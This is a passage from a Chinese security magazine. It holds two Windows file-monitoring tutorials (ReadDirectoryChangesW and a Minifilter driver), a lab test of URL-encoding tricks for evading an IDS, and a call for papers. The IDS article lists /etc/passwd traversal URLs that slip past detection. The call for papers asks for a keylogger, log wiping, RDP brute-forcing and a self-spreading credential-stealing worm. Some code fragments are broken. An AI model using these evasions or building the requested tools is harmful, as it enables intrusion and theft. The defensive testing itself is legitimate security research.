接着就是 ReadDirectoryChangesW 函数发挥作用了，它不仅能够监测到文件系统的变化，还能返回详细的文件变动信息，并且能够选择是使用同步方式监测还是异步方式监测，比较全面。当第一次调用 ReadDirectoryChangesW 函数的时候，系统会分配一些缓存来存储文件变化信息，这些缓存与要监控的文件夹关联，直到其关闭。在编程过程中出现了一点问题，提示 ReadDirectoryChangesW 函数没有定义，即使我引入了头文件。这是因为 ReadDirectoryChangesW 函数定义在 winbase.h 头文件中，通常 Windows 下编程一般都包含 windows.h 文件，而 windows.h 中包含了 winbase.h，所以使用时不用再包含 winbase.h。

在 winbase.h 中，ReadDirectoryChangesW 原型定义如下：

```c
#if(_WIN32_WINNT >= 0x0400)
WINBASEAPI
BOOL
WINAPI
ReadDirectoryChangesW(
    HANDLE hDirectory,
    LPVOID lpBuffer,
    DWORD nBufferLength,
    BOOL bWatchSubtree,
    DWORD dwNotifyFilter,
    LPDWORD lpBytesReturned,
    LPOVERLAPPED lpOverlapped,
    LPOVERLAPPED_COMPLETION_ROUTINE lpCompletionRoutine
);
#endif /* _WIN32_WINNT >= 0x0400 */


```

可以看出，这是一个条件编译语句，只有定义了 _WIN32_WINNT，这段代码才会被编译器加入，因此需要定义 _WIN32_WINNT，其值应大于等于 0x0400（0x0400 表示 Windows 2000，0x0500 表示 Windows XP），且需要定义在包含 windows.h（或 winbase.h）的定义语句之前。这里我定义其为 0x0500。

ReadDirectoryChangesW 返回类型有以下几种，由此来判断文件操作的情况：

- FILE_ACTION_ADDED（0x00000001）：有文件新建
- FILE_ACTION_REMOVED（0x00000002）：有文件移动
- FILE_ACTION_MODIFIED（0x00000003）：有文件修改
- FILE_ACTION_RENAMED_OLD_NAME（0x00000004）：文件重命名等

通过判断文件名来判断是否是记事本、文档、PPT、PDF、Excel 等文件，来记录显示对应的文件操作行为。核心代码如下：

选择要监控的文件目录，如图 1 所示。
图 1

创建一个线程来监控文件操作行为，如图 2 所示。
图 2

获得句柄后通过 ReadDirectoryChangesW 来监控目录变化，如图 3 所示。

```cpp
if(::ReadDirectoryChangesW(obj->hDir, pNotify, sizeof(buf), true,
        FILE_NOTIFY_CHANGE_FILE_NAME |
        FILE_NOTIFY_CHANGE_DIR_NAME |
        FILE_NOTIFY_CHANGE_ATTRIBUTES |
        FILE_NOTIFY_CHANGE_SIZE |
        FILE_NOTIFY_CHANGE_LAST_WRITE |
        FILE_NOTIFY_CHANGE_LAST_ACCESS |
        FILE_NOTIFY_CHANGE_CREATION |
        FILE_NOTIFY_CHANGE_SECURITY, &dwBytesReturned, NULL, NULL))


```
图 3

```cpp
case FILE_ACTION_RENAMED_OLD_NAME: {
    CTime tt = CTime::GetCurrentTime();
    CString strl;
    strl.Format("%d:%d:%d", tt.GetHour(), tt.GetMinute(), tt.GetSecond());
    if (zhi == 0) {
        obj->m_list.InsertItem(0, obj->m_szi);
        obj->m_list.SetItemText(0, 2, "重命名了文件");
        strcat(str1, " 改名为 ");
    } else {
        obj->m_list.InsertItem(0, obj->m_szi);
        obj->m_list.SetItemText(0, 2, "rename file");
        strcat(str1, "new name is");
    }
    obj->m_list.SetItemText(0, 3, strcat(str1, str2));
    obj->m_list.SetItemText(0, 1, strl);
    break;
}

case FILE_ACTION_RENAMED_NEW_NAME: {
    CTime tt = CTime::GetCurrentTime();
    CString strl;
    strl.Format("%d:%d:%d", tt.GetHour(), tt.GetMinute(), tt.GetSecond());
    if (zhi == 0) {
        obj->m_list.InsertItem(0, obj->m_szi);
        obj->m_list.SetItemText(0, 2, "重命名了文件");
    } else {
        obj->m_list.InsertItem(0, obj->m_szi);
        obj->m_list.SetItemText(0, 2, "rename file");
    }
}

strcat(str1, "->");
obj->m_list.SetItemText(0, 3, strcat(str1, str2));
obj->m_list.SetItemText(0, 1, str1);

break;
}


```

以上就是主要功能的核心代码了。如图 4 所示是中文版测试图，图 5 所示为英文语言测试图。
图 4

对于文件删除，我没有做特别的标记，因为删除一个文件即是添加一个文件到 $RECYCLE 目录，而这又是可以明显看到的。
图 5

测试结果表明，该软件可以监控记录对于记事本、文本文档、Excel、PPT、PDF 文件的创建、修改、重命名、打开、删除的操作行为，支持英汉两种语言。要实现多语言，要考虑的地方有菜单语言、工具语言、状态语言、图片按钮等。要扩展更多的语言需要递归遍历菜单栏、工具栏等，通过调用 switchlanguage 切换接口方法可以实现。本程序只是实现了两种语言的切换，可以直接在程序里添加自定义语言来实现。至此，文件行为监控器就完成了。

## 文件操作行为监控

文/图 DebugMe

监控文件操作的方法有很多（比如 SSDT Hook、FSD Hook、文件系统过滤驱动等），本文将通过微软的 Minifilter 过滤框架实现监控特定文件的操作（打开、创建、删除）。在开始之前先简单介绍一下文件的打开与删除过程。

### 文件的打开和创建

文件的打开和创建都是通过 CreateFile 来实现的，可通过参数进行区分。CreateFile 的实质是给文件系统驱动发送 IRP_MJ_CREATE，因此可以捕获文件系统对该 IRP 的处理来监控文件打开和创建操作。

### 文件删除

当调用 WIN32 API DeleteFile 的时候，系统首先会打开该文件得到其句柄，然后对该句柄以 FileDispositionInformation 为参数调用 NtSetInformationFile，最后当文件句柄被关闭的时候，系统则删除该文件。而 NtSetInformationFile 实际上是给文件系统驱动发送了一个主功能号为 IRP_MJ_SET_INFORMATION 的 IRP 请求，因此对该 IRP 的捕获可用来监控文件的删除操作。

程序分为内核层和应用层两部分，前者是基于 Minifilter 的文件系统过滤驱动，将获取到的文件操作信息记录在缓冲区中，后者读取缓冲区中的信息并显示。有关 Minifilter 的基本知识读者可参阅杂志上的《初探文件系统微过滤驱动》一文以及 WDK 等其它相关资料。

### 内核层

首先在 DriverEntry 中调用 FltRegisterFilter 注册过滤驱动，需要事先准备一个填充好的 FLT_REGISTRATION 结构体，里面包含一些回调函数的地址，其中比较重要的就是对 IRP 过滤的回调。由于本文只需要对 IRP_MJ_CREATE 和 IRP_MJ_SET_INFORMATION 进行过滤，因此只需设置这两个即可。

```c
static FLT_OPERATION_REGISTRATION g_fltOperationRegistration[] = {
    {IRP_MJ_SET_INFORMATION, 0, NULL, FileMonPostOperation, NULL},
    {IRP_MJ_CREATE, 0, NULL, FileMonPostOperation, NULL},
    {IRP_MJ_OPERATION_END}
};
```

此处将两处回调均设置为同一函数，在函数中可根据参数来判断是哪个 IRP。

```c
static FLT_POSTOP_CALLBACK_STATUS FLTAPI
FileMonPostOperation(PFLT_CALLBACK_DATA pData,
                     PCFLT_RELATED_OBJECTS pFltObjects,
                     PVOID pConnectionContext,
                     FLT_POST_OPERATION_FLAGS flags)
{
    NTSTATUS nStatus;
    PFLT_FILE_NAME_INFORMATION pFileNameInfo;
    PLOG_ENTRY pLogEntry;
    if (g_fileOpMonGlobalData.pClientPort != NULL &&    //应用层已经打开通信端口
        pFltObjects->FileObject != NULL) { //本次操作的文件对象存在
        nStatus = FltGetFileNameInformation(pData,
            FLT_FILE_NAME_NORMALIZED | FLT_FILE_NAME_QUERY_ALWAYS_ALLOW_CACHE_LOOKUP,
            &pFileNameInfo); //获取文件名信息
        if (NT_SUCCESS(nStatus)) {
            nStatus = FltParseFileNameInformation(pFileNameInfo);
            if (NT_SUCCESS(nStatus) &&
                pFileNameInfo->Extension.Buffer != NULL &&
                CheckFileExtension(&pFileNameInfo->Extension) == TRUE) //检查后缀
                RecordLogInformation(pData, pFileNameInfo); //记录本次操作
            FltReleaseFileNameInformation(pFileNameInfo);
        }
    }
    return FLT_POSTOP_FINISHED_PROCESSING;
}
```

FileMonPostOperation() 的流程是先判断应用层是否在运行，然后调用 FltGetFileNameInformation 和 FltParseFileNameInformation 来解析本次操作对应的文件名，最后根据文件名后缀判断是否需要将本次操作记录。函数 RecordLogInformation() 将本次操作的相关信息记录到内核缓冲区中，为此定义以下结构体来描述一次操作。

```c
typedef struct _LOG_DATA
{
    ULONG ulLogDataSize;          //该记录的大小
    ULONG ulProcessId;            //进程 ID
    LARGE_INTEGER requestTime;    //该请求发起的时间
    ULONG ulOperationType;        //操作类型（打开、创建、删除）
    ULONG ulOperationStatus;      //操作状态
    WCHAR wcFileName[];           //文件名
} LOG_DATA, *PLOG_DATA;
```

结构体 LOG_ENTRY 将所有记录的信息组织成一个链表。

```c
typedef struct _LOG_ENTRY
{
    LIST_ENTRY listEntry;
    LOG_DATA logData;
} LOG_ENTRY, *PLOG_ENTRY;

static VOID RecordLogInformation(PFLT_CALLBACK_DATA pData,
                                 PFLT_FILE_NAME_INFORMATION pFileNameInfo)
{
    ......
    PLOG_ENTRY pLogEntry;
    pLogEntry = AllocLogEntry(); //为本次记录分配内存
    ......
    RtlCopyMemory(pLogEntry->logData.wcFileName,
                  pFileNameInfo->Name.Buffer,
                  pFileNameInfo->Name.Length); //设置文件名
    pLogEntry->logData.wcFileName[pFileNameInfo->Name.Length / 2] = L'\0';
    pLogEntry->logData.ulProcessId = (ULONG)PsGetCurrentProcessId();
    //获取并设置进程 ID
    KeQuerySystemTime(&pLogEntry->logData.requestTime); //获取并设置请求时间
    pLogEntry->logData.ulOperationStatus = pData->IoStatus.Status; //设置操作状态
    pLogEntry->logData.ulOperationType = GetOperationType(pData);
    //获取并设置操作类型
    pLogEntry->logData.ulLogDataSize = sizeof(LOG_DATA) + pFileNameInfo->Name.Length
        + sizeof(WCHAR); //设置该记录的大小（LOG_DATA 的大小+文件名大小+文件名结尾的空字符大小）

    //将记录插入全局缓冲区链表
    ExInterlockedInsertTailList(&g_fileOpMonGlobalData.logList,
                                &pLogEntry->listEntry,
                                &g_fileOpMonGlobalData.logListLock);
}
```

函数 GetOperationType() 获取本次操作的类型（打开、创建与删除）。

```c
static ULONG GetOperationType(PFLT_CALLBACK_DATA pData)
{
    PFLT_PARAMETERS pParams = &pData->Iopb->Parameters;
    if (pData->Iopb->MajorFunction == IRP_MJ_SET_INFORMATION &&
        pParams->SetFileInformation.FileInformationClass == FileDispositionInformation)
        return OPERATION_DELETION;
    else if (pData->Iopb->MajorFunction == IRP_MJ_CREATE) {
        ULONG ulCreateDisposition = pData->Iopb->Parameters.Create.Options & 0xFF000000;
        if (ulCreateDisposition == (FILE_CREATE << 24) ||
            ulCreateDisposition == (FILE_OPEN_IF << 24) ||
            ulCreateDisposition == (FILE_OVERWRITE_IF << 24))
    }
}
```

```c
return OPERATION_CREATION;
else if (ulCreateDisposition == (FILE_OPEN << 24) ||
         ulCreateDisposition == (FILE_OVERWRITE << 24))
    return OPERATION_OPEN;
}
return OPERATION_UNKNOWN;
}
```

接下来需要解决的问题是内核与应用层通信的问题。与传统的通过 DeviceIoControl 与内核通信不同，Minifilter 提供了一套新的 API，本文将采用这种方式与内核通信。内核中首先通过 FltCreateCommunicationPort() 创建一个通信端口，该函数的参数指定了 3 个回调函数：FltCreateCommunicationPort(g_fileOpMonGlobalData.pFltFilter, &g_fileOpMonGlobalData.pServerPort, &objectAttributes, NULL, FileOpMonPortConnect, FileOpMonPortDisconnect, FileOpMonPortMessage, 1);

当应用层打开和关闭该通信端口时，将分别调用 FileOpMonPortConnect 和 FileOpMonPortDisconnect，数据通过 FileOpMonPortMessage 传递给应用层。

```c
static NTSTATUS FileOpMonPortMessage(PVOID pPortCookie, PVOID pInputBuffer, ULONG ulInputBufferLength, PVOID pOutputBuffer, ULONG ulOutputBufferLength, PULONG pReturnOutputBufferLength)
{
    ......
    KeAcquireSpinLock(&g_fileOpMonGlobalData.logListLock, &oldIrql);
    while (!IsListEmpty(&g_fileOpMonGlobalData.logList) && ulOutputBufferLength > 0) {
        bHasData = TRUE;
        pLogEntry = (PLOG_ENTRY)RemoveHeadList(&g_fileOpMonGlobalData.logList);
        if (pLogEntry->logData.ulLogDataSize > ulOutputBufferLength) {
            InsertHeadList(&g_fileOpMonGlobalData.logList, &pLogEntry->listEntry);
            break;
        }
        KeReleaseSpinLock(&g_fileOpMonGlobalData.logListLock, oldIrql);
        RtlCopyMemory(pOutputBuffer, &pLogEntry->logData, pLogEntry->logData.ulLogDataSize);
        ......
        ulBytesCopied += pLogEntry->logData.ulLogDataSize;
        ulOutputBufferLength -= pLogEntry->logData.ulLogDataSize;
        pOutputBuffer = (PVOID)((ULONG)pOutputBuffer + pLogEntry->logData.ulLogDataSize);
        FreeLogEntry(pLogEntry);
        KeAcquireSpinLock(&g_fileOpMonGlobalData.logListLock, &oldIrql);
    }

    KeReleaseSpinLock(&g_fileOpMonGlobalData.logListLock, oldIrql);
    if (ulBytesCopied == 0 && bHasData == TRUE)
        return STATUS_BUFFER_TOO_SMALL;
    else if (ulBytesCopied > 0){
        *pReturnOutputBufferLength = ulBytesCopied;
        KdPrint(("%d bytes copied.\n", ulBytesCopied));
        return STATUS_SUCCESS;
    }
    return STATUS_NO_MORE_ENTRIES;
}
```

## 应用层

应用层通过 FilterConnectCommunicationPort() 打开驱动创建的通信端口，然后创建一个线程，通过 FilterSendMessage() 不断从内核读取数据。

```c
static unsigned int WINAPI LogThread(PVOID pParam)
{
    GUI_CONTEXT* pGuiContext = (GUI_CONTEXT*)pParam;
    HRESULT hResult;
    ULONG ulBytesReturned = 0;
    PVOID pInputBuffer = NULL;
    while (pGuiContext->bStop == FALSE){
        hResult = FilterSendMessage(pGuiContext->hFilterPort, &pInputBuffer, sizeof(PVOID), g_LogBuffer, LOG_BUFFER_LENGTH, &ulBytesReturned);
        if (IS_ERROR(hResult) && HRESULT_FROM_WIN32(ERROR_INVALID_HANDLE) == hResult)
            ExitProcess(0);
        DisplayLog(pGuiContext, g_LogBuffer, ulBytesReturned);//显示
        Sleep(POLL_INTERVAL);//等待一段时间继续轮询
    }
    return 0;
}
```

图 1 是最终运行效果图。本文只记录了几个特定后缀的文件操作，读者可参看以上代码根据需要修改。


图 1

（完）

### 多态 URL 绕过 IDS 的方法及测试验证

文/图 万雪林

IDS（入侵检测系统）在企业网络安全防护中，发挥着越来越重要的作用，是企业发现网络攻击最常用的工具。IDS 一般是通过特征匹配的方式来进行攻击检测，针对已知的攻击特征有效，黑客可以通过人为构造变种的 URL 或者数据包，如使用不同编码方式，从而使其不在 IDS 的规则集中，实现绕过 IDS 的目的。本文主要介绍了几种经典的多态 URL 绕过 IDS 方法，并且采用某国际知名的 IDS 系统进行测试验证，形成测试结果。我们发现虽然这几种绕过方法有些过时，但即使使用最新的 IPS 技术，同样能够实现绕过，在本文最后提出了改进建议。

## 多态 URL 绕过 IDS 的方法

提起多态二字，大家可能会联想到编写病毒技术中的“多态”“变形”等加密技术，其实这里所讲的 URL 多态编码技术和病毒的多态变形技术有神似之处，就是用不同的表现形式来实现相同的目的。

多态 URL 编码技术有许多种，在此介绍 9 种常用且有一定代表性的方法。为了便于讲解，这里以提交地址为 /unix/password 的 URL 作为实例。“/unix/password”已经被收集到大部分 IDS 的规则集文件中，因而当我们向目标机器直接提交 /unix/password 时都会被 IDS 检测并报警。

- 1. “./”字符串插入法

鉴于“./”的特殊作用，我们可以将其插入进 URL 中来实现 URL 的变形。比如对于 /unix/password，我们可以将其改写为“/./unix/./password”“/./unix/././password”等形式来扰乱 IDS 的识别标志分析引擎，实现欺骗 IDS 的目的。

- 2. “00”ASCII 码

其原理是计算机处理字符串时在 ASCII 码为 00 处自动截断。我们可以把 /unix/password 改写为 /unix/password lovesecurity，用 WinHex 将 password 与 love 之间的空格换为 00 的 ASCII 码，保存后再用 NC 配合管道符提交。这样在有些 IDS 看来，/unix/password lovesecurity 并不与它的规则集文件中规定为具有攻击意图的字符串相同，从而就会对攻击者的行为无动于衷。

- 3. 使用路径分隔符“\”

对于像微软的 IIS 这类 Web 服务器，“\”也可以当“/”一样作为路径分隔符。有些 IDS 在设置规则集文件时并没有考虑到非标准路径分隔符“\”。如果我们把 /unix/password 改写为 \unix\password 就可以逃过 IDS 的法眼了。

- 4. 十六进制编码

对于一个字符，我们可以用转义符号“%”加上其十六进制的 ASCII 码来表示。比如 /unix/password 中第一个字符“/”可以表示为“%2F”，接下来的字符可以用它们对应的 16 进制的 ASCII 码结合“%”来表示，经过此法编码后的 URL 就不再是原先的模样了，IDS 的规则集文件里可能没有编码后的字符串，从而就可以绕过 IDS，但这种方法对采用了 HTTP 预处理技术的 IDS 是无效的。

### 5. 非法 Unicode 编码

UTF-8 编码允许字符集包含多于 256 个字符，因此也就允许编码位数多于 8 位。“/”字符的十六进制的 ASCII 码是 2F，用二进制数表示就是 00101111。UTF-8 格式中表示 2F 的标准方法仍然是 2F，但是也可以使用多字节 UTF-8 来表示 2F。字符“/”可以像表 1 中所示使用单字节、双字节、三字节的 UTF-8 编码来表示。

| “/”字符表示方式 | 二进制 | 十六进制 |
|---|---|---|
| 单字节 | 0xxxxxxx00101111 | 2F |
| 双字节 | 110xxxxx10xxxxxx1100000010101111 | C0AF |
| 三字节 | 1110xxxx10xxxxxx10xxxxxx1110000010000000101011111 | E080AF |

表 1

按照此方法，我们可以对整个字符串都进行相应的编码。虽然编码后的 URL 最终指向的资源都相同，但它们的表达方式不同，IDS 的规则集文件中就可能不存在此过滤字符串，从而实现了突破 IDS 的目的。

### 6. 多余编码法

多余编码又称双解码，就是指对字符进行多次编码。比如“/”字符可以用“%2f”表示，“%2f”中的“%”“2”“f”字符又都可以分别用它的 ASCII 码的十六进制来表示，根据数学上的排列组合的知识可知，其编码的形式有 2 的 3 次方，于是“%2f”可以改写为“%25%32%66”“%252f”等来实现 URL 的多态，编码后的字符串可能没被收集在 IDS 的规则集文件中，从而可以骗过某些 IDS。

### 7. 加入虚假路径

在 URL 中加入“../”字符串后，在该字符串后的目录就没有了意义，作废了。因此利用“../”字符串可以达到扰乱识别标志分析引擎、突破 IDS 的效果！

### 8. 插入多斜线

可以使用多个“/”来代替单个的“/”，替代后的 URL 仍然能像原先一样工作。比如对 /unix/password 的请求可以改为 ////unix////password。

### 9. 综合多态编码

顾名思义，就是选取前面介绍的 2 种或多种进行综合编码，达到绕过的目的。

## 测试验证

### 1. 测试环境准备

测试环境拓扑图如图 1 所示。


图 1 测试环境拓扑图

测试环境设备所用系统、软件详细情况如表 2 所示。

| 设备 | 操作系统 | 软件环境 | IP 地址 |
|---|---|---|---|
| Web 服务器 | Windows 2003 x86 企业版 | IIS 6.0 | 192.168.2.10 |
| IPS 管理服务器 | Windows 2008 R2 x64 企业版 | 特征库 2013 年 5 月 31 日 | 99.1.57.237 |
| PC 客户端 | Windows XP SP3 x86 旗舰版 | Netcat 1.10 | 192.168.2.221 |
| IPS 传感器 | 型号 xxxx | 特征库：2013 年 5 月 31 日 | 99.1.57.238 |

表 2 测试设备及版本清单

WEB 服务器配置。在 WEB 服务器上安装 IIS 6.0，访问目录下新建文件 /cmb/index.html，并配置 IP：192.168.2.10，在 PC 客户端配置 IP：192.168.2.221。由于浏览器客户端对扩展编码会进行解码，所以需要使用 NC 工具直接提交 URL 请求，使用命令：nc 192.168.2.10 80 < c:\1.txt 提交请求到 WEB 服务器，得到正确反馈内容，如图 2 所示，文件 1.txt 中包含提交 URL 内容，如图 3 所示。


图 2 Web 服务器返回结果


图 3 nc 发送文本内容

### 2. 测试验证

### 2.1 测试思路

编辑 1.txt 文件，通过 NC 工具提交，依次发送 9 类包含多态 URL 技术的 URL 地址，并通过 IPS Sensor 访问 WEB 服务器，使用 Wireshark 工具分析记录 URL 请求传送连接情况，查看 NSM 实时告警状态并记录。

本次测试用到两大类测试用例：测试用例一包含的多态 URL 中不含已知的入侵攻击特征，可以测试 IPS 对多态 URL 本身特征库是否做检测告警，以及多态 URL 格式能否正常获取服务器资源；测试用例二包含多态 URL 并且含已知入侵攻击特征，可以测试利用多态 URL 能否绕过 IPS 检测。

测试用例一（不含已知入侵攻击特征）及测试结果如表 3 所示。

| URL 编码类型 | 测试例一 | 测试结果 | 测试例二 | 测试结果 | 测试例三 | 测试结果 |
|---|---|---|---|---|---|---|
| “./”字符串插入法 | http://192.168.2.10/./cmb/test.html | 正常访问 无告警 | http://192.168.2.10/./cmb/./test.html | 正常访问 无告警 | http://192.168.2.10/../cmb/../test.html | 正常访问 无告警 |
| “00” ASCII 码 | http://192.168.2.10/cmb/abc test.html | 无法访问 无告警 |  |  |  |  |
| 使用路径分隔符“\” | http://192.168.2.10/cmb\test.html | 正常访问 无告警 | http://192.168.2.10/cmb%5ctest.html | 无法访问 无告警 |  |  |
| 十六进制编码 | http://192.168.2.10/cmb%2Ftest.html | 正常访问 无告警 |  |  |  |  |
| 非法 Unicode 编码 | http://192.168.2.10/cmb2Ftest.html | 无法访问 无告警 | http://192.168.2.10/cmbC0AFtest.html | 无法访问 无告警 | http://192.168.2.10/cmbE080AFtest.html | 无法访问 无告警 |
| 多余编码法 | http://192.168.2.10/cmb%2ftest.html | 正常访问 无告警 | http://192.168.2.10/cmb%25%32%66test.html | 无法访问 无告警 | http://192.168.2.10/cmb%252ftest.html | 无法访问 无告警 |
| 加入虚假路径 | http://192.168.2.10/cmb../test.html | 无法访问；无告警 | http://192.168.2.10../cmb/test.html | 无法访问；无告警 |  |  |
| 插入多斜线 | http://192.168.2.10/cmb//test.html | 正常访问；无告警 | http://192.168.2.10//cmb/test.html | 正常访问；无告警 | http://192.168.2.10///cmb////test.html | 正常访问；无告警 |
| 综合多态编码 | http://192.168.2.10/./cmb\test.html | 正常访问；无告警 | http://192.168.2.10//%2fcmb\test.html | 正常访问；无告警 | http://192.168.2.10\cmb../test.html | 无法访问；无告警 |

表 3

测试用例二（包含已知入侵攻击特征）及测试结果如表 4 所示。

| URL 编码类型 | 测试例一 | 测试结果 | 测试例二 | 测试结果 | 测试例三 | 测试结果 |
|---|---|---|---|---|---|---|
| “../”字符串插入法 | http://192.168.2.10/./etc/passwd | 告警 | http://192.168.2.10/./cmb/../etc/passwd | 告警 | http://192.168.2.10/././cmb/./../etc/passwd | 告警 |
| “00” ASCII 码 | http://192.168.2.10/etc/passwd | 无告警 |  |  |  |  |
| 使用路径分隔符“\” | http://192.168.2.10\cmb\etc\passwd | 无告警 | http://192.168.2.10\cmb%5cetc\passwd | 无告警 |  |  |
| 十六进制编码 | http://192.168.2.10/cmb%2Fetc/passwd | 告警 |  |  |  |  |
| 非法 Unicode 编码 | http://192.168.2.10/cmb/etc%2Fpasswd | 无告警 | http://192.168.2.10/cmb/etcC0AFpasswd | 无告警 | http://192.168.2.10/cmb/etcE080AFpasswd | 无告警 |
| 多余编码法 | http://192.168.2.10/cmb/etc%2fpasswd | 告警 | http://192.168.2.10/cmb/etc%25%32%66passwd | 告警 | http://192.168.2.10/cmb/etc%252fpasswd | 告警 |
| 加入虚假路径 | http://192.168.2.10/cmb/etc../passwd | 无告警 | http://192.168.2.10../etc/passwd | 告警 |  |  |
| 插入多斜线 | http://192.168.2.10/cmb/etc//passwd | 无告警 | http://192.168.2.10/cmb/etc///passwd | 无告警 | http://192.168.2.10/cmb////etc///passwd | 无告警 |
| 综合多态编码 | http://192.168.2.10/cmb\etc.%2fpasswd | 无告警 | http://192.168.2.10/cmb%5cetc\passwd | 无告警 | http://192.168.2.10/cmb\etc%2fpasswd | 无告警 |

表 4

根据测试用例一（不含已知入侵攻击特征）的测试结果和测试用例二（包含已知入侵攻）（攻击特征）测试结果对比分析，由 **Wireshark** 抓包工具证明 URL 访问连接状态，可以分别验证每种多态 URL 情况下 IPS 检测是否失效。

## 2.2 测试过程

由于篇幅限制，这里只列出其中 2 种绕过方法的测试详细过程，其它绕过方法测试详细过程略去，只给出测试结果。

### 2.2.1 多态 URL：“./.” 字符串插入法

如图 4～图 9 所示，为输入包含“./.”字符串插入法下的抓包记录。


图 4 测试用例一（不含已知入侵攻击特征）


图 5 测试用例一（不含已知入侵攻击特征）


图 6 测试用例一（不含已知入侵攻击特征）


图 7 测试用例二（包含已知入侵攻击特征）


图 8 测试用例二（包含已知入侵攻击特征）


图 9 测试用例二（包含已知入侵攻击特征）

根据数据抓包记录，URL 请求通过 IPS 发送到达 WEB 服务器端，测试用例一正常访问且无告警，测试用例二有告警记录，由此可以得出结论：**多态 URL：“./.”字符串插入法无法使 IPS 特征检测失效。**

### 2.2.2 多态 URL：插入多斜线

如图 10～图 12 所示，为测试用例一输入包含插入多斜线下的抓包记录；如图 13～图 15 所示，为测试用例二输入包含插入多斜线下的抓包记录。


图 10 测试用例一（不含已知入侵攻击特征）


图 11 测试用例一（不含已知入侵攻击特征）


图 12 测试用例一（不含已知入侵攻击特征）


图 13 测试用例二（包含已知入侵攻击特征）


图 14 测试用例二（包含已知入侵攻击特征）


图 15 测试用例二（包含已知入侵攻击特征）

根据数据抓包记录，URL 请求经过 IPS 送到 WEB 服务器，测试用例一均能正常访问，无告警记录，测试用例二也无告警记录，由此可以得出结论：**多态 URL：插入多斜线可以绕过 IPS 特征检测**。

## 2.3 测试结果

综合分析统计情况，可以分为三种情况：

- 测试用例一能够正常访问，无告警，测试用例二有告警，此情况下 IPS 特征库中已含此类攻击特征，可以检测告警，因而无法达到入侵攻击目的。
- 测试用例一无法正常访问，无告警，测试用例二无告警/有告警，此情况下，因无法访问定位到 WEB 服务器目录内容，因此无法达到入侵攻击目的。
- 测试用例一能够正常访问，无告警，测试用例二亦无告警，此情况下 IPS 特征库检测失效，并能正确定位到 WEB 服务器目录内容，因此可以达到入侵攻击目的。

具体详细统计情况如表 5 所示。

| URL 编码类型 | 测试用例一 | 测试用例二 | 结果分析 |
|---|---|---|---|
| “./”字符串插入法 | 正常访问 无告警 | 告警 | 无法攻击入侵 |
| “00” ASCII 码 | 无法访问 无告警 | 无告警 | 无法攻击入侵 |
| 使用路径分隔符“\”“/” | 正常访问 无告警 | 无告警 | 可以绕过 IPS 检测 |

| 分类 | 示例/说明 | 结果1 | 结果2 | 结果3 |
|---|---|---|---|---|
| （未完整显示） | `%5c` | 无法访问；无告警 | 无告警 | 无法攻击入侵 |
| 十六进制编码 |  | 正常访问；无告警 | 告警 | 无法攻击入侵 |
| 非法 Unicode 编码 |  | 无法访问；无告警 | 无告警 | 无法攻击入侵 |
| 多余编码法 | `%2f` | 正常访问；无告警 | 告警 | 无法攻击入侵 |
| 多余编码法 | `%25%32%66、%252f` | 无法访问；无告警 | 告警 | 无法攻击入侵 |
| 加入虚假路径 | `../在2级目录之间` | 无法访问；无告警 | 无告警 | 无法攻击入侵 |
| 加入虚假路径 | `../紧接IP之后` | 无法访问；无告警 | 告警 | 无法攻击入侵 |
| 插入多斜线 |  | 正常访问；无告警 | 无告警 | 可以绕过 IPS 检测 |
| 综合多态编码 | 包含/或多斜线和`./`、十六进制编码、`%2f` | 正常访问；无告警 | 无告警 | 可以绕过 IPS 检测 |
| 综合多态编码 | 其他情况 | 无法访问；无告警 | 无告警 | 无法攻击入侵 |

表 5 综合分析统计

## 2.4 测试结论

根据以上测试分析结果，可以得到以下结论。

- 多态 URL 编码中，使用路径分隔符“\”、插入多斜线，这两种多态编码，可以影响 IPS 特征库正常检测，使其失效，从而达到攻击入侵目的。
- 多态 URL 编码中，“/./”“00” ASCII 码、“%5C”十六进制编码、非法 Unicode 编码、多余编码法、加入虚假路径，这几种情况编码，不能绕过 IPS 特征库检测使其失效，因此无法构成入侵攻击。

基于以上测试和论证，路径分隔符“\”、插入多斜线这两种多态编码仍然能够干扰 IPS 特征库检测，实现绕过。

#### 小结

通过测试和论证，我们发现这几种经典的绕过 IDS 的方法虽然不是最新的，属于比较陈旧的方法，但是仍然有很多 IDS 厂商不够重视这些问题，没有及时地更新自己的签名库，导致黑客实现绕过。企业在选择和使用 IDS 产品的时候，不能盲目地相信商业化的产品，在碰到商业化产品无法及时更新的情况下，适当部署开源 IDS 工具，通过自己定制签名的方式进行防护，实现绕过方法的检测，与商业化产品协同工作，弥补商业化产品的不足，更好地保护企业信息资产，营造一个安全的网络环境。

（完）

### 2014 年第 1 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 12 期的部分选题如下，完整的选题内容请见每月发送的约稿邮件。

## 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- Windows UAC 低权限下，进入系统后提高账户权限的方法。

## 2. Windows7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows7 屏幕保护密码的方法。

## 3. Linux 日志处理

要求：

- 清除个人当前操作的所有日志记录；
- 保留其他人的操作记录，注意，有些日志启用了记录操作时间；
- 处理好多人同时操作同一账户时，确保仅清除个人日志。

## 4. Linux 键盘记录

要求：

- 以服务的方式启动；
- 除了记录 tty 登录，还要记录通过 ssh 等远程登录用户的键盘输入；
- 如果可以的话，除了记录键盘记录，还要记录下用户键入命令后的结果；
- 记录中要标识操作的用户，注意，要考虑多用户同时操作一个账户的情况。

## 5. Linux 自动检测网络安全

要求：

- 自动收集当前 Linux 系统的信息，如 uname、hosts、passwd、shadow、ifconfig、ps、netstat、history 等；
- 通过我们提供的帐号密码库自动测试远程登录，若登录成功则将远程主机的地址、端口、帐号、密码以及从哪一台机器登录的等详细记录；
- 将该程序自动复制到第 2 步成功登录的远程 Linux 主机，并重复 1、2、3 步操作；
- 可以手动制定结束条件，比如测试主机的个数，目的是防止重复登录；
- 将 1、2、3 中收集或记录的信息回传到一开始的主机；
- 完成操作后清除相关的操作记录。

## 6. 暴力破解 3389 远程桌面密码

要求：

- 针对 Windows 3389 远程桌面实现暴力破解密码；
- 读取指定的用户名和密码字典文件；
- 采用多线程；
- 所有函数都必须判断错误值；
- 使用 VC++2008 编译工具实现，控制台程序；
- 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
